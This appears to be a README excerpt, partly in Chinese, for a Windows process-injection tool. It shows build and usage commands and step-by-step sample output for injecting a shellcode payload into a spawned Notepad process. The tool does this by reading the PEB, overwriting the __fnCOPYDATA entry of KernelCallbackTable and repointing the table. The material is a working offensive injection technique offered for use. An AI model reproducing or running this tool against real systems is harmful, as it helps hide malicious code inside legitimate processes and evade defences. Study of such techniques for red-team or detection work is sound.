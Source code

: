 ```bash
# Windows
build.bat

# Linux/macOS (需要 MinGW 交叉编译)
bash build.sh
```

### 使用方法

```bash
cd build

# 基本用法（会创建 Notepad 作为目标）
kernel_callback_injection.exe payload.bin

# 生成自定义 payload
generate_shellcode.exe my_payload.bin
kernel_callback_injection.exe my_payload.bin
```

### 输出示例

```
===================================================================
Kernel Callback Table Injection
===================================================================

[*] Target Process: C:\Windows\System32\notepad.exe
[*] Payload Size: 19 bytes

[*] Step 1: Loading NT APIs...
[+] NtQueryInformationProcess loaded at: 0x00007FFB...

[*] Step 2: Creating target process...
[+] Process created (PID: 12345)

[*] Step 3: Waiting for process initialization...

[*] Step 4: Finding window handle...
[+] Window handle found: 0x000123456789AB

[*] Step 5: Opening process handle...
[+] Process ID: 12345
[+] Process handle: 0x000000000000012C

[*] Step 6: Retrieving PEB address...
[+] PEB Address: 0x00000012345678AB

[*] Step 7: Reading KernelCallbackTable...
[+] KernelCallbackTable Address: 0x00007FFB...
[+] Original __fnCOPYDATA: 0x00007FFB...

[*] Step 8: Allocating remote memory for payload...
[+] Remote payload buffer: 0x00000234567890AB
[+] Payload written (19 bytes)

[*] Step 9: Modifying KernelCallbackTable...
[+] Modified __fnCOPYDATA to point to: 0x00000234567890AB

[*] Step 10: Cloning modified KernelCallbackTable...
[+] Modified table written to: 0x00000345678901BC

[*] Step 11: Updating PEB->KernelCallbackTable...
[+] PEB->KernelCallbackTable updated successfully
```